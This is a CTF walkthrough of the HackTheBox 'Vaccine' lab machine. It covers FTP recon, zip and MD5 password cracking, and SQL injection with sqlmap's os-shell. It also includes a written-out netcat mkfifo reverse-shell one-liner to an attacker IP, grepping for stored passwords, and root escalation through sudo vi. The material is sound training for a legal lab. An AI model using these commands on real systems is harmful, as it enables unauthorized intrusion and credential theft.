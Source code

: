 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
PICTURE (nmap.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Logo Title Text 1")
 
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
```zip2john backup.zip > zip.hash```
```john zip.hash```
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
PICTURE (index_cat.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Logo Title Text 1")


After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
PICTURE (cars.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Logo Title Text 1")
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see. 
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the ```--os-shell``` option to see if I could get a shell as the database user. 
  
PICTURE (oshell.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Logo Title Text 1")
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
PICTURE (revshell.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Logo Title Text 1")
  
A quick shell upgrade with

	```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  
```grep -I -R “pass”*```   
And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
PICTURE (gtfobins.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png)

I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
PICTURE (sudol.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png)

```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened I typed 

:set shell=/bin/sh
:shell
This gave me root!
PICTURE (root.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png)

All that was left was to enter my flags on HTB. 
PICTURE (pwnd.jpg) ![alt text](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png)

Thanks for reading!
